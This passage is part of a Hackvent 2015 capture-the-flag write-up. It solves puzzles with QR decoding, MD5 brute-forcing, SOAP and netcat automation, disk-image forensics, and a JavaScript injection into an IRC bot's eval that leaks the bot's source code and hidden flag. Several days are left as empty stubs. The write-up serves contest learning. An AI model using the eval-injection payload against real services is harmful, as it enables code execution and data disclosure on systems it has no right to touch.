**Solution**  

This one nearly broke my brain. We had to delve into the nitty gritty details of the QR format and extend it to RGB.

There is a great video about how to decode a QR code by hand here: https://www.youtube.com/watch?v=KA8hDldvfv0  
And the wikipedia entry was extremely useful as well: https://en.wikipedia.org/wiki/QR_code  

The video does a much clearer job of explaining the process, but I will run through it here too:

If we assume each cell in the QR code now contains 3 bits, there are basically 3 QR codes interwoven. 
Since in normal QR codes black=1, white=0, we extend this to the colours using CMY instead of RGB:


```
RGB
111 black  (bl)
110 blue   (B)
101 green  (G)
100 l.blue (lb)
011 red    (R)
010 purple (P)
001 yellow (Y)
000 white  (W)
```

These images explain the QR format:


We see from the right bottom segment that this QR code uses byte encoding, so can produce any ASCII character.

We also see that the mask pattern bits are `Blue-Black-Blue`. Since we have 3 bits per cell we can have a different masking pattern per channel:

```
masking:
B-bl-B   
110 111 110   

MSB channel : 111  
bit2 channel: 111  
LSB channel : 010
```

So in the most significant bit channel (MSB) and the middle bit channel, the masking pattern is that of 111 (all black), and in the least significant bit channel it is the pattern for 010 (white-black-white). 
From the image above we can see that its the following mask patterns, where 1 means invert that bit, and 0 means don't invert. These mask patterns align to the bottom right corner and repeat in all directions.

```
111= 100100      010: 101010
     100100           000111
     100100           100011
     100100           010101
     100100           111000
     100100           011100

```

Now the next block of eight above the encoding block specify the length, which we just skip, and after that the message starts. The orientation of the blocks determines which cells represent the most through least significant bits
The image shown above numbers the cells in a block from most significant (1) to least significant (8), let's rewrite that to use powers of two:

```
orient: up      orient: top      orient: down     orient: bottom
1  2            4  8  16  32     64 128           1  2  64 128
4  8            1  2  64  128    16 32            4  8  16 32
16 32                            4  8 
64 128                           1  2 
```

Now we get to the actual decoding. For each block in the path, we note the color of all cells, transcribe this to three bits per cell, 
apply the mask pattern, get the eight bits per channel, and convert this to the corresponding ascii char. If we encounter `0000`, that signifies end of message.

Below is the manual process I performed to solve this:

*NOTE: bold means bit is covered by masking pattern and should be inverted*


Reading the letters from most significant bit channel first then repeating the process in the second and third channels and concatenating the text gives us the nugget.

**Nugget**

```
HV15-KLg1-vnhb-qO3v-02Fd-IzOR
```

## Dec 18: Reversing #3  

**Challenge**  

*bite the sour apple*

This time the key is not encrypted, but verified. Can you still recover the daily code? 

[file](writeupfiles/dec18_hv15_syiYLIcPSF-50bmTAyGb)

**Solution**  

We get a Mach-o executable. We disassemble the file and see a series of base64 encodings followed by MD5 hashings followed by string comparisons:




The target strings are the following:

```
fab3e420d6d8a17b53b23ca4bb01866b
189f56eea9a9ba305dffa8425ba20048
2335667c646346b38c8f0f47b13fab13
f4709a7eef9d703920b910fc734b151c
b74e57f21f5a315550a9e2f6869d4e44
40abc257b6f0e0420dc9ae9ba19c8c8c
```

There are six target strings, which is exactly the number of fragments in a nugget, so it looks like the program checks whether the md5 sum of each base64 encoded nugget fragment is equal these hexstrings. We verify this by testing it for the first fragment, which we know to be `HV15`:

```
$ python
>>> import base64,md5
>>> m=md5.new()
>>> m.update(base64.b64encode('HV15'))
>>> m.hexdigest()
'fab3e420d6d8a17b53b23ca4bb01866b'

```

So we see that we were correct. Now it is just a matter of finding the rest of the 4-letter fragments, which we can easily bruteforce:

```python
import base64
import md5
import itertools

targets=['fab3e420d6d8a17b53b23ca4bb01866b',
         '189f56eea9a9ba305dffa8425ba20048',
         '2335667c646346b38c8f0f47b13fab13',
         'f4709a7eef9d703920b910fc734b151c',
         'b74e57f21f5a315550a9e2f6869d4e44',
         '40abc257b6f0e0420dc9ae9ba19c8c8c']

alphabet='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

# try all 4 letter fragments of the nugget, md5(base64(fragment)) must equal one of the targets
for fragment in itertools.product(alphabet,repeat=4):
    fragment = ''.join(fragment)
    m=md5.new()           
    m.update( base64.b64encode(fragment) )
    if m.hexdigest() in targets:
        print 'Found fragment: '+fragment+' ('+m.hexdigest()+')' 

```

This outputs:

```
Found fragment: AHzP (b74e57f21f5a315550a9e2f6869d4e44)
Found fragment: BcJH (2335667c646346b38c8f0f47b13fab13)
Found fragment: HV15 (fab3e420d6d8a17b53b23ca4bb01866b)
Found fragment: N8tK (f4709a7eef9d703920b910fc734b151c)
Found fragment: QmHY (40abc257b6f0e0420dc9ae9ba19c8c8c)
Found fragment: 9aSY (189f56eea9a9ba305dffa8425ba20048)
```

We put together the nugget by placing the fragments in the same order as the strings are checked in the executable.

**Nugget**

```
HV15-9aSY-BcJH-N8tK-AHzP-QmHY
```

## Dec 19: Soap Riddler  

**Challenge**  

*be fast or be last*

You will be given the solution, your task is to calculate the beautiful assignment.
But you have to be quick, or Thumper robs your nugget! 

[your daily soap](writeupfiles/dec19_wsdl.xml)

**Solution**  

We have to get our nugget from a SOAP service described by the following WSDL:

```xml
<?xml version="1.0" encoding="utf-8"?>
<definitions 
	xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
	xmlns:xsd="http://www.w3.org/2001/XMLSchema"
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
	xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"
	xmlns:tns="urn:hlserver"
	xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
	xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
	xmlns="http://schemas.xmlsoap.org/wsdl/"
	targetNamespace="urn:hlserver">

<message name="sessionRequest">
</message>
<message name="sessionResponse">
  <part name="session" type="xsd:string" />
</message>

<message name="questRequest">
  <part name="session" 	type="xsd:string" />
</message>
<message name="questResponse">
  <part name="quest" 	type="xsd:string" />
</message>

<message name="solutionRequest">
  <part name="session" 	type="xsd:string" />
  <part name="solution" type="xsd:string" />
</message>
<message name="solutionResponse">
  <part name="result" 	type="xsd:string" />
</message>
  
<portType name="hlserverPortType">
  <operation name="getSession">
    <documentation>Order new Session</documentation>
    <input 	message="tns:sessionRequest"/>
    <output message="tns:sessionResponse"/>
  </operation>
  <operation name="getQuest">
    <documentation>Order new Quest to solve</documentation>
    <input 	message="tns:questRequest"/>
    <output message="tns:questResponse"/>
  </operation>
  <operation name="submitSolution">
    <documentation>Submit solution for a quest</documentation>
    <input 	message="tns:solutionRequest"/>
    <output message="tns:solutionResponse"/>
  </operation>  
</portType>

<binding name="hlserverBinding" type="tns:hlserverPortType">
  <soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
  <operation name="getSession">
    <soap:operation soapAction="urn:hlserver#getSession" style="rpc"/>
    <input>
      <soap:body use="encoded" namespace="urn:hlserver" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
    </input>
    <output>
      <soap:body use="encoded" namespace="urn:hlserver" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
    </output>
  </operation>  
  <operation name="getQuest">
    <soap:operation soapAction="urn:hlserver#getQuest" style="rpc"/>
    <input>
      <soap:body use="encoded" namespace="urn:hlserver" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
    </input>
    <output>
      <soap:body use="encoded" namespace="urn:hlserver" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
    </output>
  </operation>  
  <operation name="submitSolution">
    <soap:operation soapAction="urn:hlserver#submitSolution" style="rpc"/>
    <input>
      <soap:body use="encoded" namespace="urn:hlserver" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
    </input>
    <output>
      <soap:body use="encoded" namespace="urn:hlserver" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
    </output>
  </operation>  
</binding>
<service name="hlserver">
  <port name="hlserverPort" binding="tns:hlserverBinding">
    <soap:address location="http://hackvent.org/DailyS04p/server.php"/>
  </port>
</service>
</definitions>
```

So it appears that we need to get a `quest` from the service and submit a solution. We request a `quest` and get the following:

```
x*y*z = 34557834247
```

It would appear we need to find three factors of a large number. Submitting a (wrong) solution triggers the following response from the server:

```
nope, this is not the assignment for the given result! (order numbers, no blanks)
```

So we need to order our numbers (ascending as it turns out) when we craft our solution, which for this example would look like:

```
1447*3323*7187
```

when we submit this correct solution we get the response:

```
Well done, congrats: 1 of 20
```

So let's automate this and submit 20 solutions in a row


```python
from suds.client import Client
import math,itertools

# return list of all factors of n
def factors(n):
    fact=[1,n]
    check=2
    rootn=math.sqrt(n)
    while check<rootn:
        if n%check==0:
            fact.append(check)
            fact.append(n/check)
        check+=1
    if rootn==check:
        fact.append(check)
        fact.sort()
    return fact


# connect to SOAP service and print some info and start a session
url = 'http://hackvent.org/DailyS04p/server.php?wsdl'
client = Client(url)
print client
session = client.service.getSession()

# solve 20 quest in a row
for _ in range(0,20):
    quest = client.service.getQuest(session)   
    
    print 'Quest: '+quest
    equation=quest.split(' = ')
    target= int(equation[1])
    
    ft= factors(target)
        
    for c in itertools.combinations(ft,3):
        if c[0]*c[1]*c[2]==target and 1 not in c:
            solstring = str('*'.join(map(str,sorted(c))))
            print 'Our solution: '+solstring
            response = client.service.submitSolution(session,solstring )
            print 'Response: '+response
```

This script outputs the following:

```
Service ( hlserver ) tns="urn:hlserver"
   Prefixes (0)
   Ports (1):
      (hlserverPort)
         Methods (3):
            getQuest(xs:string session, )
            getSession()
            submitSolution(xs:string session, xs:string solution, )
         Types (0):


Quest: x*y*z = 18081466231
Our solution: 1321*2333*5867
Response: Well done, congrats: 1 of 20
Quest: x*y*z = 322993008917
Our solution: 5099*7307*8669
Response: Well done, congrats: 2 of 20
Quest: x*y*z = 86869597361
Our solution: 2539*4603*7433
Response: Well done, congrats: 3 of 20
Quest: x*y*z = 746546585201
Our solution: 8059*9311*9949
Response: Well done, congrats: 4 of 20
Quest: x*y*z = 139364239493
Our solution: 3989*5573*6269
Response: Well done, congrats: 5 of 20
Quest: x*y*z = 609858270569
Our solution: 7589*8863*9067
Response: Well done, congrats: 6 of 20
Quest: x*y*z = 48438366677
Our solution: 1459*5431*6113
Response: Well done, congrats: 7 of 20
Quest: x*y*z = 165453576851
Our solution: 5233*5281*5987
Response: Well done, congrats: 8 of 20
Quest: x*y*z = 45624244177
Our solution: 1987*2689*8539
Response: Well done, congrats: 9 of 20
Quest: x*y*z = 158666169521
Our solution: 3673*6287*6871
Response: Well done, congrats: 10 of 20
Quest: x*y*z = 5458915087
Our solution: 1031*1087*4871
Response: Well done, congrats: 11 of 20
Quest: x*y*z = 299945937959
Our solution: 3947*7741*9817
Response: Well done, congrats: 12 of 20
Quest: x*y*z = 73131129427
Our solution: 2719*4027*6679
Response: Well done, congrats: 13 of 20
Quest: x*y*z = 179127963941
Our solution: 2267*8273*9551
Response: Well done, congrats: 14 of 20
Quest: x*y*z = 80209455857
Our solution: 1499*7001*7643
Response: Well done, congrats: 15 of 20
Quest: x*y*z = 79052863993
Our solution: 1451*5783*9421
Response: Well done, congrats: 16 of 20
Quest: x*y*z = 67753202401
Our solution: 1609*4241*9929
Response: Well done, congrats: 17 of 20
Quest: x*y*z = 146094089213
Our solution: 3851*4243*8941
Response: Well done, congrats: 18 of 20
Quest: x*y*z = 32951598587
Our solution: 2099*2957*5309
Response: Well done, congrats: 19 of 20
Quest: x*y*z = 63435256273
Our solution: 3761*3889*4337
Response: Congrats, your HV-Nugget is HV15-uUIh-wudK-YAam-fIw5-YuNo
```

After 20 successful quests we are given the nugget.

**Nugget**

```
HV15-uUIh-wudK-YAam-fIw5-YuNo
```

## Dec 20  
**Challenge**  
**Solution**  
**Nugget**

## Dec 21: Mr Santa  

**Challenge**  


**Solution**  

We get an IRC bot to play with. We can say `HELLO`, ask him to `CALCULATE` something for us or give him a `GIFT`

```
<ysje>	        HELLO
<MrSanta>	Hello, ysje
<ysje>	        CALCULATE 40+2
<MrSanta>	That's easy: 42
<ysje>	        GIFT bla
<MrSanta>	Thanks for all the fish, ysje, but that's not what I was wishing for!
```

We can inject some javascript, 

```
<ysje>	        CALCULATE Math
<MrSanta>	That's easy: [object Math]
<ysje>	        CALCULATE Object.getOwnPropertyNames(this)
<MrSanta>	That's easy: Int8Array,encodeURIComponent,RegExp,WeakSet,NaN,Symbol,Float64Array,Int32Array,decodeURIComponent,ReferenceError,Float32Array,Uint8ClampedArray,WeakMap,Intl,decodeURI,Promise,JSON,Uint8Array,Error,EvalError,Uint16Array,Function,ArrayBuffer,Object,Set,URIError,Number,parseInt,Math,escape,Infinity,Boolean,DataView,undefined,isFinite,SyntaxError,String,encodeURI,Uint32Array,unescape,Date,RangeError,Map,eval,Int16Array,isNaN,parseFloat,TypeError,Arr

```

and if we're really crafty get him to show us his code:

```
<ysje>	        CALCULATE (function () { var obj = {toString: function () { return arguments.callee.caller.toString() }}; throw obj })()
<MrSanta>	This doesn't work out ... but that's your fault: function (from, text) {
<MrSanta>	  console.log(from + ' => BOT: ' + text);
<MrSanta>	  if (text.match(/^hello/i)) {
<MrSanta>	     client.say(from, "Hello, "+from);
<MrSanta>	  } else if (text.match(/^gift (.*)/i)) { 
<MrSanta>	    if (RegExp.$1 === 'five tons of flax') {
<MrSanta>	       client.say(from, "Thanks a lot! I do have something in return for you: 'HV15-TZHg-KRLH-tHlC-PmiZ-uWzB'");
<MrSanta>	    } else {
<MrSanta>	       client.say(from, "Thanks for all the fish, "+from+", but that's not what I was wishing for!");
<MrSanta>	    }
<MrSanta>	  } else if (text.match(/^calculate (.*)/i)) {
<MrSanta>	     expr = RegExp.$1;
<MrSanta>	     console.log('evaluating "'+expr+'"');
<MrSanta>	     try {
<MrSanta>	        client.say(from, "That's easy: "+vm.runInNewContext('('+expr+')'));
<MrSanta>	     } catch (e) {
<MrSanta>	        client.say(from, "This doesn't work out ... but that's your fault: " + e);
<MrSanta>	     }
<MrSanta>	  } else {
<MrSanta>	     client.say(from, "Sorry, I didn't understand. Maybe you meant to say HELLO, offer me a GIFT, or you want me to CALCULATE something?");
<MrSanta>	  }
<MrSanta>	}
```


**Nugget**

```
HV15-TZHg-KRLH-tHlC-PmiZ-uWzB
```

## Dec 22 Saving XMas 

**Challenge**  

*with your hacking fu*

our team was able to download the daily code from santas computer. sadly its somehow obfuscated and hidden - we are not able to extract the code.
can you help us to save xmas and find the code?

[solve_me.zip](writeupfiles/solve_me.zip)

**Solution**  

We get a virtual hard disk image. We mount this and find a cd rom image. 

We mount this too 

```
mkdir /mnt/HV15
mount -t iso9660 somefile /mnt/HV15
```

and find 5 files labelled part 1 throught part5.

```
$ tree
.
├── readme.txt
├── $RECYCLE.BIN
│   └── S-1-5-21-2161969326-774472170-822451778-1002
│       └── desktop.ini
├── somefile
├── Somefile
│   ├── HV15.txt
│   ├── part1
│   │   ├── code
│   │   └── pass
│   ├── part1.zip
│   ├── part2
│   │   └── murtceps
│   ├── part3
│   ├── part4.pkg
│   └── part5_uu
└── System Volume Information
    └── tracking.log
```

HV15.txt:

```
HV15-part1-part2-part3-part4-part5
```

readme.txt:

```
no hints here. ho ho ho. 

           _

          {_}

          / \

         /   \

        /_____\

      {`_______`}

       // . . \\

      (/(__7__)\)

      |'-' = `-'|

      |         |

      /\       /\

     /  '.   .'  \

    /_/   `"`   \_\

   {__}###[_]###{__}

   (_/\_________/\_)

       |___|___|

        |--|--|

       (__)`(__)


```


So it appears we need to solve 5 smaller challenges to get the nugget:

*Part1*  

*Part2*  

murtceps (spectrum spelled backwards) is a wav file. We open the audio file in Audacity and find the nugget fragment in the spectogram view:


```
ibiV
```

*Part3*  

```
N=8ED6168915ED61C560B04D212FC032C107B8BA9BF1179B97DEABFA71F111E749
C=39C9FB8503B3F73BB24069AFE0F2C0416177A40EE60E57134C00ABE8BEDE45BD
```

*Part4*  

*Part5*  

the suffix `_uu` hints that this is uu encoded data, we decode in python:

```python
import binascii

with open('dec22/Hackvent-cd/part5_uu') as f:
    data=f.read()
    
print data

print binascii.a2b_uu(data)
```

this outputs

```
TmZjTg==
```

which is base64 encoding of the following nugget fragment

```
NfcN
```

**Nugget**

```
HV15-part1-ibiV-part3-part4-NfcN
```


## Dec 23  
**Challenge**  
**Solution**  

We connect to the service using 

```bash
$ nc
nc challenges.hackvent.hacking-lab.com 8888
Riddle me this, riddle me that. What about solving a bunch of riddles for a present or two?
0, 1, 1, 2, 3 ... ?
```

Looks like the fibonacci sequence, let's see what happens if we answer

```
5
ACK, go ahead...
8
ACK, go ahead...
13
ACK, go ahead...
14
RST. Go ask Leonardo for help ...
```

Ok, seems like we need to keep going with the fibonacci sequence. We automate it using python:

```python
import telnetlib

# generator to produce fibonacci numbers
a,b = 0,1    
def fibI():
    global a,b
    while True:
        a,b = b, a+b
        yield a
 
server = "challenges.hackvent.hacking-lab.com"
port = 8888

# get generator to the right point in the sequence
fib=fibI()
fib.next()
fib.next()
fib.next()
fib.next()

print "starting"

#connect to service 
tn = telnetlib.Telnet(server, port)
print tn.read_until("\n")
print tn.read_until("\n")
    
# play until we win
response="ACK, go ahead..."
while response == "ACK, go ahead...":    
        
    # answer with next in fibonacci sequence
    answer=fib.next()
    print 'answering: '+str(answer)
    tn.write(str(answer))
    tn.write('\n')
    
    response=tn.read_until('\n').strip('\n')
    print response        
        
# see what else they have to say        
print tn.read_all()

```

This results in the following exchange:

```
starting
Riddle me this, riddle me that. What about solving a bunch of riddles for a present or two?

0, 1, 1, 2, 3 ... ?

answering: 5
ACK, go ahead...
answering: 8
ACK, go ahead...
answering: 13
ACK, go ahead...
answering: 21
ACK, go ahead...
answering: 34
ACK, go ahead...
answering: 55
ACK, go ahead...
answering: 89
ACK, go ahead...
answering: 144
ACK, go ahead...
answering: 233
ACK, go ahead...
answering: 377
ACK, go ahead...
answering: 610
You really thought I would give away my precious stuff?
  That was a joke. HAHA. FAT CHANCE.

(if you want to prank your friends, find this little code at http://hackvent.hacking-lab.com/KJYzeUErl7_riddler.tar.gz)
```

Ok, this was to easy to be the real challenge, but we did get the [source code](writeupfiles/KJYzeUErl7_riddler.tar.gz)

```

```

**Nugget**

## Dec 24: I'll Give You My Present  

**Challenge**  

*..if you supply one for me first*

[no_library_sorry.exe](writeupfiles/no_library_sorry.exe)

**Solution**  


**Nugget**


